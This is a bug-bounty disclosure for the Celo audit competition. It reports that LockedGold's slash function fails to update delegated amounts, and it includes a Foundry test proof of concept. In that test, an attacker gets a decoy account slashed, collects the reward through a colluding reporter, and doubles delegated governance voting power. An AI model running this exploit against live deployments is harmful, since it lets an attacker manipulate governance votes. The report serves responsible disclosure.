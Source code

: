 # #37251 \[SC-Critical] Fraudulent padding of governance voting power

**Submitted on Nov 30th 2024 at 02:15:23 UTC by @innertia for** [**Audit Comp | Celo**](https://immunefi.com/audit-competition/audit-comp-celo)

* **Report ID:** #37251
* **Report Type:** Smart Contract
* **Report severity:** Critical
* **Target:** https://github.com/celo-org/celo-monorepo/blob/release/core-contracts/12/packages/protocol/contracts/governance/LockedGold.sol
* **Impacts:**
  * Manipulation of governance voting result deviating from voted outcome and resulting in a direct change from intended effect of original results

## Description

## Brief/Intro

`Slash` reduces or increases a user's `nonvoting balance`. However, there is no processing related to `delegete`.\
This can cause various vulnerabilities, but this report will introduce the fraudulent inflation of voting rights by attackers.

## Vulnerability Details

The `slash` function increases or decreases the `nonvotingBalance` of the target account or reporter. However, if a delegation has occurred beforehand, the increase or decrease of the delegation amount must also be calculated.

```
      _decrementNonvotingAccountBalance(account, maxSlash.sub(difference));
      _incrementNonvotingAccountBalance(reporter, reward);
```

https://github.com/celo-org/celo-monorepo/blob/3c58a09455a12518916d2df38693325bafeb462b/packages/protocol/contracts/governance/LockedGold.sol#L505-L506

For example, if you look at the `lock` function, which is another process that increases `nonvotingBalance`, you can see that it also updates `DelegatedAmount`.

```
    _incrementNonvotingAccountBalance(msg.sender, msg.value);
    _updateDelegatedAmount(msg.sender);
```

https://github.com/celo-org/celo-monorepo/blob/3c58a09455a12518916d2df38693325bafeb462b/packages/protocol/contracts/governance/LockedGold.sol#L150-L151

`slash` does not do this, so there is no consistency between the increase/decrease in `nonvotingBalance` and `DelegatedAmount`. This can lead to various attack methods and calculation errors, but I would like to introduce one example, which is inflating the number of voting rights.

I will explain the step-by-step process while implementing it within the POC.

## Impact Details

* Inflating the number of votes
* Withdrawing tokens while maintaining the number of votes etc.

## References

https://github.com/celo-org/celo-monorepo/blob/3c58a09455a12518916d2df38693325bafeb462b/packages/protocol/contracts/governance/LockedGold.sol#L505-L506.\
https://github.com/celo-org/celo-monorepo/blob/3c58a09455a12518916d2df38693325bafeb462b/packages/protocol/contracts/governance/LockedGold.sol#L150-L151

## Proof of Concept

## 3. Proof of Concept

Please add the following `test_GovernanceVotingPowerFraudulentlyInflated` function to the `LockedGoldTest_slash` contract in `LockedGold.t.sol`. https://github.com/celo-org/celo-monorepo/blob/release/core-contracts/12/packages/protocol/test-sol/unit/governance/voting/LockedGold.t.sol.\
https://github.com/celo-org/celo-monorepo/blob/3c58a09455a12518916d2df38693325bafeb462b/packages/protocol/test-sol/unit/governance/voting/LockedGold.t.sol#L1096C10-L1096C30

```
function test_GovernanceVotingPowerFraudulentlyInflated() public {
//attackerMain: account that gathers voting power
address attackerMain = actor("attackerMain");
address attackerMainSigner;
uint256 attackerMainSignerPK;

//attackerSub: A decoy account
address attackerSub = actor("attackerSub");
address attackerSubSigner;
uint256 attackerSubSignerPK;

uint256 percentToDelegate = 100;
uint256 delegatedAmount = (value * percentToDelegate) / 100;

vm.prank(attackerMain);
accounts.createAccount();
vm.prank(attackerSub);
accounts.createAccount();
(attackerMainSigner, attackerMainSignerPK) = actorWithPK("attackerMainSigner");
(attackerSubSigner, attackerSubSignerPK) = actorWithPK("attackerSubSigner");

vm.deal(attackerSub, 10 ether);

//Lock celo by attackersub
lockCelo(attackerSub, value);

//100% delegation from attackerSub to attackerMain
delegateCelo(attackerSub, attackerMain, 100);

//By delegation,all of the VotingPower has been given to attackerMain.
assertEq(lockedGold.getAccountTotalGovernanceVotingPower(attackerSub), 0);
assertEq(lockedGold.getAccountTotalGovernanceVotingPower(attackerMain), value);

//The attackerSub carries out an act that deserves a slash, and reports it to the Slasher.
//The important thing is that this reporter is also an account related to the attacker.
uint256 penalty = value;
uint256 reward = value;
address[] memory lessers = new address[](1);
lessers[0] = address(0);
address[] memory greaters = new address[](1);
greaters[0] = address(0);
uint256[] memory indices = new uint256[](1);
indices[0] = 0;

vm.prank(downtimeSlasher);
lockedGold.slash(attackerSub, penalty, reporter, reward, lessers, greaters, indices);

//reward is given to the reporter
assertEq(lockedGold.getAccountNonvotingLockedGold(reporter), reward);

//The reporter (the attacker's related account) who received the reward delegates this to attackerMain
delegateCelo(reporter, attackerMain, 100);

//The attackerMain has GovernanceVotingPower that has been fraudulently inflated.
//In this sequence, the locked celo is only the `value`. In other words, GovernanceVotingPower should only exist for the `value`.
//However, by taking advantage of the flawed implementation of `slash`, GovernanceVotingPower can be padded to the value + reward (in this example, it is doubled).
//This is a manipulation of voting rights, and is a significant damage to the protocol.
assertEq(lockedGold.getAccountTotalGovernanceVotingPower(attackerMain), value + reward);

}
```
